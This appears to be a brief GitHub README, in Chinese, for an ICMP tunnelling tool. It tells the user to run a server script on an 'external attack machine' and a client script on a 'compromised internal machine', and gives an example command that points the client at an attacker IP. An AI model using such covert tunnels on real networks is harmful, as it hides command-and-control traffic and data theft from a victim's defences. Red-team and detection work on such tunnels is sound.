 # Icmp_tunnel ICMP隧道 
外网攻击机：python IcmpTunnel_S.py  
内网失陷机：python IcmpTunnel_C.py 外网攻击机IP 内网失陷机IP 端口号  
```shell
python IcmpTunnel_C.py 1.1.1.1 127.0.0.1 80
```
案例：[隐藏通信隧道技术-ICMP隧道-协议解析-1](https://mp.weixin.qq.com/s/gN3Pjlo8T1aDSSUoABiLNg)
